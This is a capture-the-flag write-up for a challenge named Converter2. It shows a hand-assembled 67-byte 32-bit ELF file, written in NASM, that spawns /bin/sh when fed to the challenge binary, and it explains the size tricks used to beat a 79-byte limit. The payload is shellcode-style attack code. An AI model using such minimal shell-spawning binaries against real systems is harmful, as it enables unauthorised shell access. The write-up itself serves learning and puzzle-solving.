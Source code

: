 # Converter2

Here, we have to actually make a very small elf file. The smallest possible file that gives a shell for 64 bit is 80 bytes but the challenge only allows 79 bytes. I tried to reduce one byte but failed and then realized that the challenge binary does not check if the elf is 64 bit and found out that the smallest file for 32 bit could be less than 79 bytes. Solution is below for 32 bit, this file is 67 bytes long and all of the elf sections are manually built out to save size, compile with `nasm -f bin -o 32 32.asm`

```x86asm
BITS 32

    org     0x00010000

    db      0x7F, "ELF"             ; e_ident
    dd      1                                       ; p_type
    dd      0                                       ; p_offset
    dd      $$                                      ; p_vaddr 
    dw      2                       ; e_type        ; p_paddr
    dw      3                       ; e_machine
    dd      _start                  ; e_version     ; p_filesz
    dd      _start                  ; e_entry       ; p_memsz
    dd      4                       ; e_phoff       ; p_flags
_start:
    mov     ebx, 0x1003c                  ; e_shoff       ; p_align
    jmp second
    ; inc     eax                     ; e_flags
    ; int     0x80
    db      0
    dw      0x34                    ; e_ehsize
    dw      0x20                    ; e_phentsize
    db      1                       ; e_phnum
                                    ; e_shentsize
                                    ; e_shnum
                                    ; e_shstrndx
filesize      equ     $ - $$

        dq 0
        second:
                mov eax, 11
                int 0x80
        binsh:
        db "/bin/sh"
```

There are a couple of blogs you can find which go over this but they focus on just calling exit 42 or printing "hello world", this has been modifief to call /bin/sh.

Just `cat 32 | ./chall` to get the flag.
